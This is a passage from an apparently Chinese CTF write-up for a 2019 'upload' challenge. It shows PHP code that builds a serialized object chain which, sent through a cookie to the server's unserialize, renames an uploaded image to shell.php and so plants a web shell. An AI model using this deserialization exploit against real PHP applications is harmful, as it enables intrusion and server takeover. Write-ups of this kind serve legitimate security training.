 1. 第一个checker检查通过

2. 第二个检查post文件，我们就不上传了。跳过

3. 第三个检查ext文件结尾。我们序列化一个true绕过。第二个if上传现在的头像位置。并且filename要更改成php文件。再经过copy方法。至此整个pop链利用完毕

**Profile类序列化编写(2)** 

```php
class Profile{
	public $checker = 1; //1. 绕过检查是否登录方法
    public $filename_tmp = '1.png';
    public $filename = 'shell.php';
    public $upload_menu;
    public $ext = 1;
    public $img;
    public $except = array('index'=>'upload_img'); //2. 进入upload_img方法
}
```

### 完整pop链构造

```php
<?php
class Register {
    public $checker; 
    public $registed = 0;
    public function __construct(){
        $this->checker=new Profile();  
    }
}
class Profile{
	public $checker = 1; 
    public $filename_tmp = './upload/d80b11f5e8fe401a099747c3100a007/4a47a0db6e60853dedfcfdf08a5ca249.png'; //查看图片链接，改地址
    public $filename = 'upload/shell.php';
    public $upload_menu;
    public $ext = 1;
    public $img;
    public $except = array('index'=>'upload_img'); //2. 进入upload_img方法
}

$a = new Register();
echo base64_encode(serialize($a)); //注意赛题源码反序列化时用
```

随便一个界面，更改cookie。刷新。因为哪个界面刷新都会进入判断是否登录的方法。而该方法里就有反序列化。

![image-20210810013955757](%5B%E5%BC%BA%E7%BD%91%E6%9D%AF2019%5Dupload.assets/image-20210810013955757.png)
